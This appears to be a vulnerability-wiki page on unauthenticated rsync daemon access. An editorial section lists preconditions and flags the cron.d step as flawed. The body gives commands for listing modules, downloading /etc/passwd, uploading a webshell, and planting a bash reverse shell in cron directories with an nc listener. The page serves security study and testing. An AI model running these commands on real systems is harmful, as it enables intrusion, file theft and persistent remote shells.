




# Rsync 未授权访问漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：daemon端口可达、模块允许匿名、具体read only/ACL/路径/进程权限决定读写；cron链还需可写宿主目录
- 证据范围：没有密码不自动允许任意读写，展示root导出模块是特定危险配置；两种cron目录混用

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 脚本可放cron.hourly，但cron.d需要crontab语法而非同一shell脚本，第二路径不能等效触发
- 任意文件必须限制在模块导出/权限范围
- 873是daemon模式，不是所有rsync/SSH方式
- 未给rsyncd.conf、版本或权限验证

### 操作风险与资料使用

- 含计划任务、启动项或 SSH 授权文件写入：会改变后续执行或登录行为。测试前备份原文件，结束后恢复原内容、权限与属主，不覆盖生产文件。
- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

**rsync的常用命令**

    列举整个同步目录或指定目录：
    rsync ip::
    rsync ip::xxx/
    下载文件或目录到本地：
    rsync -avz ip::xxx/xx.php /root
    rsync -avz ip::xxx/ /var/tmp
    上传文件到服务器：
    rsync -avz webshell.php ip::web/

二、漏洞影响
------------

三、复现过程
------------

`nmap`先扫一波：

    rsync rsync://www.0-sec.org:873/
    rsync rsync://www.0-sec.org:873/src 来查看模块名列表
    我们再列出src模块下的文件
    rsync rsync://www.0-sec.org:873/src/

    我们可以下载任意文件：
    rsync -av rsync://www.0-sec.org:873/src/etc/passwd ./

**提权：**

写入`shell`并赋权：

    #!/bin/bash 
    /bin/bash -i >& /dev/tcp/192.168.91.128/4444 0>&1

    chmod +x shell

将`shell`上传至`/etc/cron.hourly`：

    rsync -av shell rsync://192.168.91.130/src/etc/cron.hourly
    rsync -av shell rsync://www.0-sec.org:873/src/etc/cron.d/shell

本地监听：

    nc -nvv -lp 4444

参考链接
--------

> https://fansonfan.github.io/2019/04/20/rsync-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
